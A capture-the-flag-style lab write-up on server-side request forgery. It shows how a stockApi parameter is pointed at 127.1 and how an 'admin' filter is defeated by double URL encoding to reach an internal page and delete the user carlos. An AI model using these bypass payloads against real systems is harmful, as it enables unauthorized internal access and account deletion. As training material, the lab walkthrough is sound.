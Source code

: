 ![4](https://github.com/Knign/Write-ups/assets/110326359/6ae639a7-86b3-4d80-bf1c-44da8a26a765)---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---

![1](https://github.com/Knign/Write-ups/assets/110326359/fb708aaa-65ca-4de1-bd08-c26be142584a)

Let's check out the stock.

![2](https://github.com/Knign/Write-ups/assets/110326359/95f8aa50-fafe-4aa5-b532-13118d26abc1)

We can intercept the request using Burpsuite.

![3](https://github.com/Knign/Write-ups/assets/110326359/404e9755-cfff-48e6-8663-084ff35ba964)

Let's send the request to the `Repeater`.

We can set the `stockApi` field to the following and send the request:

```
http://localhost/admin
```

![4](https://github.com/Knign/Write-ups/assets/110326359/23b1b28b-5db1-43b5-8d17-aaf931166127)

So that request is blocked.

Let's send the following request:

```
http://127.1/
```

That returns a valid response.

Let's try visiting the `/admin` page.

```
http://127.1/admin
```

![7](https://github.com/Knign/Write-ups/assets/110326359/633f6f33-c540-4095-82c3-d85daef9a2db)

Looks like the `admin` keyword is being pattern-matched and blocked.
We can get around it by double URL encoding the string.

![10](https://github.com/Knign/Write-ups/assets/110326359/0e9aa7c9-05f8-419d-b4a2-5a5ea6c13a4e)

Let's now send the following request:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![9](https://github.com/Knign/Write-ups/assets/110326359/099a7a29-fd61-4e3b-a3f8-55fc2fd3ecc3)

We can now delete the `carlos` user.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

![11](https://github.com/Knign/Write-ups/assets/110326359/54f70884-0935-4b68-be82-03928025b356)

We have solved the lab.

![12](https://github.com/Knign/Write-ups/assets/110326359/88b224e6-d665-415a-85a4-1ec27f3f5fae)
